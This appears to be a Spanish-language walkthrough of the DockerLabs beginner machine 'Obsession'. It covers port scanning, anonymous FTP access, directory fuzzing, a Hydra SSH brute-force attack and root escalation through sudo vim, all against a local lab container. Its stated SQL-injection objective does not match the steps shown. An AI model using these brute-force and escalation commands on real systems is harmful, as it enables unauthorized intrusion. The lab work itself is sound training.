 # 🖥️ **Máquina: Obsession**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio para principiantes en ciberseguridad. Se trabaja principalmente con servicios **SSH** y **FTP**.

- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la aplicación backend mediante técnicas de **inyección SQL**.  
  - Comprender el impacto de estas vulnerabilidades.

![Máquina Backend](/Obsession/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Obsession en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo  
Primero, descargamos y extraemos el archivo `.zip`. Utilizamos `7z` para este propósito:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático  
Después de descomprimir, lanzamos la máquina con el siguiente script:

```bash
bash auto_deploy.sh obsession.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y contar con un entorno con Docker correctamente configurado.

![Máquina Iniciada](/Obsession/Imagenes/Despliegue.jpeg)

### 3️⃣ Comprobar la conexión  
Verificamos que la máquina esté activa enviando paquetes de ping:

```bash
ping -c4 172.17.0.2
```

![PING](/Obsession/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Iniciamos un escaneo de puertos con **nmap**:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Obsession/Imagenes/Puertos.jpeg)

📌 **Tip:** Puedes usar herramientas personalizadas como `extractPorts` para filtrar los puertos abiertos:

```bash
extractPorts allPorts.txt
```

Realizamos un escaneo más específico sobre los puertos detectados (22 y 80):

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Obsession/Imagenes/Servicios.jpeg)

**Hallazgos iniciales:**
- **Puerto 22 (SSH):** Acceso remoto al sistema operativo.
- **Puerto 80 (HTTP):** Página web activa.
- **FTP:** El servicio permite acceso anónimo.

---

## 🌐 **Accediendo al servidor web**

Para acceder correctamente a la página web, debemos modificar el archivo `hosts`:

```bash
sudo nano /etc/hosts
```
Añadimos:

```plaintext
172.17.0.2    nombre-del-sitio.local
```

Esto nos permitirá visitar `http://nombre-del-sitio.local` en nuestro navegador.

![Pagina](/Backend/Images/etchost.jpeg)

Recopilamos información básica del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Acceso al servicio FTP**

Ya que el acceso anónimo está habilitado, nos conectamos al servidor FTP:

```bash
ftp 172.17.0.2
```

![Reconocimiento](/Obsession/Imagenes/FTP.jpeg)

Dentro del servicio, encontramos dos archivos:

- `pendientes.txt`
- `chat-gonza.txt`

Los descargamos con:

```bash
get pendientes.txt /home/alejandro/Descargas/pendientes.txt
get chat-gonza.txt /home/alejandro/Descargas/chat-gonza.txt
```

![FTP_descargas](/Obsession/Imagenes/FTP_descargas.jpeg)

Leemos su contenido:

```bash
cat pendientes.txt
cat chat-gonza.txt
```

![cat](/Obsession/Imagenes/Lectura.jpeg)

**Observaciones:**  
Los archivos contienen conversaciones internas. Aunque mencionan asuntos legales, nuestro enfoque es identificar potenciales vulnerabilidades; uno de los archivos sugiere cambios pendientes en la página web, lo que podría indicar fallos en desarrollo.

---

## 🔎 **Búsqueda de Directorios Ocultos**

Al navegar inicialmente por la página no encontramos contenido útil, por lo que iniciamos un escaneo de directorios con **wfuzz**:

```bash
wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

📎 **Nota:** Si no tienes instalada la lista **Seclists**, puedes descargarla con:

```bash
git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
```

![Pagina](/Obsession/Imagenes/wfuzz.jpeg)

**Resultados:**
- **/important:** Directorio con un manifiesto personal.
- **/backup:** Directorio que revela un posible nombre de usuario.

![evidencia](/Obsession/Imagenes/important.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_importan.jpeg)
![evidencia](/Obsession/Imagenes/backup.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_backup.jpeg)

---

## 🔐 **Ataque de Fuerza Bruta al servicio SSH**

Con el nombre de usuario descubierto, utilizamos **Hydra** para encontrar su contraseña:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

![Hydra](/Obsession/Imagenes/Hydrassh.jpeg)

Tras obtener las credenciales, iniciamos sesión:

```bash
ssh russoski@172.17.0.2
```

![Entrar](/Obsession/Imagenes/Entrar.jpeg)

---

## 🛡️ **Escalada de Privilegios**

Dentro de la máquina, verificamos los permisos **sudo**:

```bash
sudo -l
```

Descubrimos que el usuario puede ejecutar **vim** como `sudo` sin contraseña.

**¿Por qué es importante?**  
**Vim** permite ejecutar comandos de sistema desde su entorno. Esto significa que podemos invocar una shell como root directamente desde Vim.

📌 Consultando la base de datos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), encontramos que para escalar privilegios usando Vim, el comando es:

```bash
sudo vim -c ':!/bin/bash'
```

Esto abrirá un **shell interactivo como root**.

![Entrar](/Obsession/Imagenes/Resultado.jpeg)

---

# ✅ **Resumen del proceso:**

1. Escaneamos puertos y descubrimos servicios SSH, HTTP y FTP.
2. Accedimos vía FTP y descargamos archivos que revelaron información sensible.
3. Identificamos directorios ocultos en la página web.
4. Realizamos un ataque de fuerza bruta sobre SSH y accedimos al sistema.
5. Escalamos privilegios mediante una mala configuración de **sudo** sobre **vim**.

